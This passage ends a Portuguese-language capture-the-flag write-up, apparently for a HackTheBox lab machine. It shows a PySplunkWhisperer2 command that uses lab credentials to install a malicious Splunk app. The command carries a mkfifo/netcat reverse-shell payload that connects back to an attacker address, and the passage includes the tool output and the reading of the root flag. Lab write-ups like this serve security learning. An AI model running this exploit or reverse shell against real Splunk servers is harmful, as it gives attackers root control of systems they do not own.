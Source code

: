Após executar o comando conforme abaixo, foi possível obter um shell reverso rodando sob o contexto de root:

```bash
$ python3 ./PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" --lhost 10.10.10.10
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpcae79s9x.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.10.10:8181/
10.10.10.209 - - [04/Feb/2021 19:46:38] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

[.] Removing app...
[+] App removed
[+] Stopped HTTP server
Bye!
```

A partir deste shell, a obtenção da flag em `/root/root.txt` pode ocorrer sem problemas.

```bash
# cat /root/root.txt
<redacted>
```

Espero que tenha sido útil!

Até o próximo post! :smile:
